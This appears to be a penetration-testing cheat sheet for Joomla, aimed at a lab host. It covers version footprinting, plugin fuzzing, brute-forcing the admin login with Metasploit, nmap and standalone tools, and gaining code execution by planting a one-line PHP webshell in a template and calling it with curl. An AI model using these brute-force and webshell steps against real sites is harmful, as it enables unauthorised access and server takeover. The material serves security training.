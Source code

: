 # Joomla

## 101

Joomla is typically used with `PHP` and `MySQL` (similar to [WordPress](wordpress.md)) and can be identified by its favicon:

<figure><img src="../../.gitbook/assets/joomla_favicon.png" alt=""><figcaption></figcaption></figure>

Joomla's has the following user roles:

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Footprinting

### Manual <a href="#manually_enumerating_version" id="manually_enumerating_version"></a>

{% tabs %}
{% tab title="CMS" %}
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
{% endtab %}

{% tab title="Version" %}
Enumerate the version:

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

In certain installs, we may be able to discover the version from other dirs or JS files:

{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -

curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

# Version enumeration via JS files
curl -s http://dev.inlanefreight.local/media/system/js

# Plugins might helps us estimate the version
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="droopescan" %}
[`droopescan`](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well:

{% code overflow="wrap" %}
```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```
{% endcode %}
{% endtab %}

{% tab title="joomlascan" %}
[`joomlascan`](https://github.com/drego85/JoomlaScan) is an open source software that finds the components installed in Joomla CMS:

```bash
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```
{% endtab %}
{% endtabs %}

## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### Fuzzing

{% tabs %}
{% tab title="Manual" %}
Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)):

{% code overflow="wrap" %}
```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
The MSF's module [`joomla_plugins`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_plugins/) can be used to enumerate plugins:

```bash
msf > use auxiliary/scanner/http/joomla_plugins
msf auxiliary(joomla_plugins) > show actions
        ...actions...
msf auxiliary(joomla_plugins) > set ACTION < action-name >
msf auxiliary(joomla_plugins) > show options
        ...show and set options...
msf auxiliary(joomla_plugins) > run
```
{% endtab %}
{% endtabs %}

### BFA <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>

{% hint style="warning" %}
Joomla 3.2 stable release bought 2FA as part of the core install which adds another challenge to BFAs. However, this isn't enabled by default.
{% endhint %}

The default administrator account is `admin` and the password is set at install time:

{% tabs %}
{% tab title="MSF" %}
MSF's [`joomla_bruteforce_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_bruteforce_login/) module can be used for a BFA:

```bash
msf > use auxiliary/scanner/http/joomla_bruteforce_login
msf auxiliary(joomla_bruteforce_login) > show actions
        ...actions...
msf auxiliary(joomla_bruteforce_login) > set ACTION < action-name >
msf auxiliary(joomla_bruteforce_login) > show options
        ...show and set options...
msf auxiliary(joomla_bruteforce_login) > run
```
{% endtab %}

{% tab title="joomla-brute" %}
[`joomla-brute`](https://github.com/ajnik/joomla-bruteforce) is Joomla login bruteforcer:

{% code overflow="wrap" %}
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}


{% endtab %}

{% tab title="joombrute" %}
[`joombrute`](https://github.com/0rbz/JoomBrute) is a Joomla bruteforcer:

{% code overflow="wrap" %}
```bash
python joombrute.py --url http://site/administrator --username admin --wordlist passwords.txt
```
{% endcode %}
{% endtab %}

{% tab title="Nmap" %}
`nmap` has a [Joomla-specific NSE](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) as well as a [general one](https://nmap.org/nsedoc/scripts/http-form-brute.html) for BFA against HTTP forms:

{% code overflow="wrap" %}
```bash
# Basic usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute <target>

# Custom usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-joomla-brute.hostname=domain.com, http-joomla-brute.threads=3,brute.firstonly=true' <target>

# General NSE script
nmap --script http-form-brute -p 80 <host>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### RCE <a href="#code_execution" id="code_execution"></a>

We can upload a webshell as by editing a template (e.g. `error.php`) and adding a PHP webshell:

```php
# Webshell payload
system($_GET['c']);
```

<figure><img src="../../.gitbook/assets/joomla_rce.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Interact with the webshell
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?c=id
```
{% endcode %}

### Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)
